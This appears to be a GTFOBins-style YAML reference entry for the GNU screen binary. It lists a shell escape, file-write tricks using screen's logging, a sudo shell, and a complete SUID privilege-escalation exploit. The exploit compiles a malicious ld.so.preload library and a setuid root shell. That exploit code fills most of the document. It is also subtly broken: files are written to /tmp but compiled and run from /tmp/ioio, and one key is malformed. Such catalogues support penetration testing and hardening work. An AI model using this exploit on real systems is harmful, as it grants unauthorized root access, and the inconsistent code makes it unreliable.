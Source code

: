 ```yaml
---
functions:
  shell:
    - code: screen
  file-write:
    - description: This has been found working on screen version 4.06.02. The file has a trailing `^C` character.
      code: |
        LFILE=file_to_write
        screen -L -Logfile $LFILE tail -f /dev/null
        DATA
        ^C
    - description: This has been found working on screen version 4.05.00. The file has a trailing `^C` character.
      code: |
        LFILE=file_to_write
        screen -L $LFILE tail -f /dev/null
        DATA
        ^C
  sudo:
    - code: sudo screen
  SUID:
    - description: base on gnu/screenroot by infodox on 25/1/2017
    - code :|
        cat << EOF > /tmp/libhax.c
        #include <stdio.h>
        #include <sys/types.h>
        #include <unistd.h>
        __attribute__ ((__constructor__))
        void dropshell(void){
            chown("/tmp/rootshell", 0, 0);
            chmod("/tmp/rootshell", 04755);
            unlink("/etc/ld.so.preload");
            printf("[+] done!\n");
        }
        EOF
        gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
        rm -f /tmp/libhax.c
        cat << EOF > /tmp/rootshell.c
        #include <stdio.h>
        int main(void){
            setuid(0);
            setgid(0);
            seteuid(0);
            setegid(0);
            execvp("/bin/sh", NULL, NULL);
        }
        EOF
        gcc -o /tmp/rootshell /tmp/ioio/rootshell.c
        rm -f /tmp/rootshell.c
        echo "[+] Now we create our /etc/ld.so.preload file..."
        cd /etc
        umask 000 # because
        screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/ioio/libhax.so" # newline needed
        echo "[+] Triggering..."
        screen -ls # screen itself is setuid, so... 
        /tmp/ioio/rootshell
---
```

